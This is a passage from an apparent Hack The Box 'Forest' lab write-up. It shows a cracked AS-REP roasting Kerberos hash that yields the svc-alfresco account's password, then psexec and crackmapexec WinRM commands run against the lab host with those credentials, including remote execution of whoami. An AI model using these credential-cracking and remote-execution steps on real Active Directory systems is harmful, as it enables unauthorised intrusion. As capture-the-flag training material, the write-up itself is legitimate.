 ```
$krb5asrep$svc-alfresco@HTB:5b8752295d87be6d3650183a6c77b00e$482c13d29de70557494907cddfcf3a8cae76ca81d3f38f2dfb814ed68f6907761d62c01ad78146f1727f26b21eb08c78492e940fa39f241aaca7b75f734bd9a2022500b6779fd5388b656845c4305f7a60f249baaf2fd7d4f474a2df93f5088ebd03427b9bffabd37cafba6396a3fed34f37627f491b4f26f6db3333ce4518b90bcd8f04013afe3e4edd5771ae189a81ba5c6311ddc288df15e1b7974f0ff86797c8fdda4d1fb88d2f0ed2fa9c10003123f1e5be72b3e207144884a80dc84d5d29dd711224ea7adc005bbcd30027c0d32cbe9ee6f501e9c580c9e19af814c98a:s3rvice

```
Resources
https://seuforia.wordpress.com/2018/09/19/do-not-require-kerberos-pre-authentication-for-users-create-by-ambari-on-ad/
https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat


## 2.3 System Access

The following credentials were revealed from the previous step. 
```

/svc-alfresco:s3rvice
```

Since port 5985 was identified, I gained system access via winrm. 

I attempted using psexec, but it didn't work. 
Crackmapexec winrm was used, but I could not get a shell from it.
msfconsole was also used, but again I could not gain an interactive shell. 

```
┌──(kali㉿kali)-[~/HTB/Forest]
└─$ impacket-psexec forest.htb/svc-alfresco:s3rvice@10.10.10.161          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.


──(kali㉿kali)-[~/HTB/Forest]
└─$ crackmapexec winrm 10.10.10.161 -d htb -u svc-alfresco -p s3rvice -x "whoami"                                
HTTP        10.10.10.161    5985   10.10.10.161     [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   10.10.10.161     [+] htb\svc-alfresco:s3rvice (Pwn3d!)
WINRM       10.10.10.161    5985   10.10.10.161     [+] Executed command
WINRM       10.10.10.161    5985   10.10.10.161     htb\svc-alfresco


```
